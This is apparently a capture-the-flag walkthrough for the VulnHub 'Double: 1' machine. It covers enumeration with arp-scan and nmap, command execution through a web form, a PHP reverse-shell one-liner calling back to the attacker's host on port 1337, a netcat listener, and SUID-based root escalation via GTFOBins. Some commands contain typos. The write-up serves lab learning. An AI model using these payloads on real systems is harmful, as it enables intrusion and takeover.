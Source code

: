 # Double-1
## Overview :
DOUBLE: 1 is a Linux-based virtual machine game released on the VulnHub platform with easy to medium difficulty levels. Designed by foxlox, this CTF uses the “Double Trouble” concept, where participants are gradually confronted with two target systems: the main machine and a nested VM within it.

## Objective :
The primary goal of this challenge is to gain root access on both systems through rigorous enumeration, web exploitation, steganography, remote command execution (RCE), privilege escalation, and nested VM import and exploitation.
This engine is ideal for participants looking to strengthen their foundation in web exploitation techniques, hidden file analysis, and privilege escalation in a simulated, real-world environment.

## The Hack :
As usual, the first thing we do is find the target IP address by checking the machines on our network, using tools like arp-scan, NetDiscover, Angry IP, and others. Since I'm using macOS, I'm using arp-scan, so let's get started.
```
arp-scan —intefaces=en0 --
```

![Screenshot](images/1.png)

The IP address 192.168.0.103 will be our target. Once we have it, let's run an Nmap scan to check for open ports and running services.
```
nmap -A -p- 192.168.0.103 -Pn
```

![Screenshot](images/2.png)

Nmap has identified some interesting open ports. As usual, let's check out the website.

![Screenshot](images/3.png)

Hmm, it looks like a blank book. Here you can see the Production and Test entries, let's take a look.

![Screenshot](images/4.png)

Login page? YES. So I've tried some default credentials but none of them worked. So let's check the Production entry.

![Screenshot](images/5.png)

Looking at the input, it asks for a command and a code. So, I used the code (9001) and the valid Linux command 'id'.

![Screenshot](images/6.png)

However, the command wasn't executed. However, I did see some results. For example, I now have a new GET parameter "out." I also see the date and time, as well as my machine's IP address. So, I can conclude that some variables have been used. So, I tried executing some PHP code.
```
<?php $sock=fsockopen("192.168.0.101",1337);exec("bash <&3 >&3 2>&3");
```

![Screenshot](images/7.png)

Before sending the command, open a new terminal and use netcat to get a reverse connection:
```
Nc -lnvp 1337
```

![Screenshot](images/8.png)

Finally, it's time to elevate privileges and move to the top. Diani has two users, ppp and fox. However, I couldn't find a way to elevate privileges for either user. Interestingly, when I looked at the SUID binaries, there were two that could grant me root access.
```
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![Screenshot](images/9.png)

Yes, that's it. Let's execute it. There are actually two ways to reach the top. I can use **[nice](https://gtfobins.github.io/gtfobins/nice/#suid)** or **[chroot](https://gtfobins.github.io/gtfobins/chroot/#suid)**.

![Screenshot](images/10.png)




![gif](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExN2tmcGtqdW5xbmk5czVrbmptaGx3cWxyM3dpMjM4ZzU3NWxkYjE1NSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/mQG644PY8O7rG/giphy.gif)
